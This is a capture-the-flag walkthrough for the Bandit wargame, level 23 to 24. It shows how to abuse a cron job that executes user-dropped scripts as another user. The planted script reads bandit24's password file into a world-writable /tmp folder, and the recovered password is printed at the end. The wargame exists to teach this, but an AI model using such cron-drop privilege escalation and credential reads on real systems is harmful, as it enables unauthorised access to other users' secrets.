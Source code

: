 
# Bandit Level 23 → Level 24

## Level Goal

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…


**Thought Process**:
After reading the bash file, you will notice that the code loops through all the shown as well as hidden files from /var/spool/bandit24/foo and excludes the files with '.' and '..' which are essentially system config files. But rest it executes a file and then deletes it. All this happens in 60 seconds i.e. a minute.

So, I need to write a file that essentially when gets executed will do something in our favour. Since the shell that runs, runs for bandit24 it should also have permissions to read the password. This is what we take advantage of.

In our .txt file we will cat the contents of /etc/bandit_pass/bandit24 which password for bandit24 which bandit24 has access to, into a file in a temp directory I create which my current level that bandit23 can access.
In this way I get the password.



**Steps**:

1. Firstly as it says there are `CRON` configuration files at `/etc/cron.d` we `cd` to there:
```
bandit23@bandit:~$ cd /etc/cron.d/
```

2. Execute cronjob_bandit24 using the cat command:
```
bandit23@bandit:/etc/cron.d$ ls -lsh
total 24K
4.0K -rw-r--r-- 1 root root 120 Sep 19 07:08 cronjob_bandit22
4.0K -rw-r--r-- 1 root root 122 Sep 19 07:08 cronjob_bandit23
4.0K -rw-r--r-- 1 root root 120 Sep 19 07:08 cronjob_bandit24
4.0K -rw-r--r-- 1 root root 201 Apr  8  2024 e2scrub_all
4.0K -rwx------ 1 root root  52 Sep 19 07:10 otw-tmp-dir
4.0K -rw-r--r-- 1 root root 396 Jan  9  2024 sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

3. Read cronjob_bandit24.sh using the cat command:
```
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

```

4. Let's move to /var/spool/bandit24/foo since bandit24 would be the value of myname:
```
bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/foo
```

5. Now create a temporary directory using mkdir command:
```
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/ji
```

6. Give all permissions to this temp directory:
```
bandit23@bandit:/var/spool/bandit24/foo$ chmod 777 /tmp/ji
```

7. Now keep checking time, you have 60 seconds in a minute, so within 60 seconds create a .txt file using vim and write the command you wish to execute and give it all permissions:
```
bandit23@bandit:/var/spool/bandit24/foo$ vim passHere.txt
bandit23@bandit:/var/spool/bandit24/foo$ chmod 777 passHere.txt
```

In the .txt write:
```
cat /etc/bandit_pass/bandit24 > /tmp/ji/passHere.txt
```

8. Wait until the minute changes, then check your /tmp/ji folder , wherein if you were able to do all the above within 60 seconds then you would get your file. When you read it using cat then you should ahve your password:
```
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/ji/passHere.txt 
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```